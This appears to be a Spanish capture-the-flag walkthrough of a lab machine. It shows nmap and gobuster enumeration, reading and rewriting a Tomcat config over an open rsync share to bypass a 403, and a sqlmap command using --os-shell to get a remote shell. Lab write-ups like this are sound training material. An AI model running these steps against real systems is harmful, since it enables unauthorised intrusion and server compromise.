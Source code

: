 ### Tags: `rsync` `sqlmap` `getcap`

# Escaneo (*22, 80, 139, 445*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
````

![image](https://github.com/user-attachments/assets/b5443b93-8748-44d6-9843-71d2a06dde6c)


# Port80 / Gobuster

Como vimos arriba en el reporte del escaneo la web es un *ubuntu Default Page* por ende tiramos de Gobuster

```ruby
gobuster dir -u http://<IP>/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

Encontramos este directorio:

![image](https://github.com/user-attachments/assets/7e47c4c7-3b94-4b8d-95b9-3e2c77e181cd)

Si vamos en la web nos dice **403 Forbidden** y cuando hacemos `Ctrl + u` nos dice esto otro:

![image](https://github.com/user-attachments/assets/0aba8e1a-53d9-4dff-9216-6ee95cd55637)

Esto significa que actualmente estamos en el **entorno de producción** y tenemos que encontrar una manera de ir al entorno de producción. Para ello podemos consultar otros servicios. Entonces tenemos ``Rsync y 'Rsync`` se usa para **transferir** y **sincronizar** archivos entre una computadora y un disco duro externo y entre computadoras en red comparando los tiempos de modificación y los tamaños de los archivos. 
Lo que vamos a hacer ahora es verificar loa archivos del directorio `conf` y se hace de esta manera:

```ruby
 rsync -av rsync://<IP>/
```

![image](https://github.com/user-attachments/assets/3b03ee10-1fbf-4ee4-822f-ae331a0319bd)

Ahora nos metemos dentro de `Conf`

```ruby
rsync -av rsync://<IP>/Conf
```

![image](https://github.com/user-attachments/assets/8ecf56b3-74f8-4fbc-9a76-249de491c1d8)

Ahora lo que hacemos es **copiarnos** todos los archivos a nuestra máquina y verifiquemos si podemos obtener algo

```ruby
rsync -av rsync://<IP>/Conf ./mi_Conf
```

![image](https://github.com/user-attachments/assets/69154a29-52ff-41c4-9c94-a1af5c2d86dc)

Observando los distintos archivos, en `webapp.ini` encontramos credenciales de un **TomCat** que esta en `prod`

![image](https://github.com/user-attachments/assets/6cea61e9-e1e3-4ea2-acf2-a058c6b6e8d1)

Entonces lo que hacemos es cambiarlo a `dev` y enviarlo otra ves con el archivo cambiado 

```ruby
nano webapp.ini   #cambiar a dev
rsync -av webapp.ini rsync://<IP>/Conf/webapp.ini
```

![image](https://github.com/user-attachments/assets/073bb231-b8ba-46e9-911b-e5f0176fd0f5)

Ahora si recargamos la pagina en `/admin` podemos visualizar la web y no nos da el 403 de antes

![image](https://github.com/user-attachments/assets/a40d9cf5-1edc-48e5-9075-007c15add7d8)

# SQLMap

Capturamos la petición con Burp y lo guardamos para jugar con `sqlmap`
- `-dbs` enumere todas las bases de datos disponibles
- `--risk 3` nivel de riesgo (técnicas más agresivas y potencialmente más ruidosas)
- `--level 5` nivel de profundidad de las técnicas de explotación
- `--os-shell` Le indica a SQLmap que intente obtener un shell de sistema operativo en el servidor remoto

```ruby
sudo sqlmap -r SQL_burp -dbs --risk 3 --level 5 --os-shell 
```


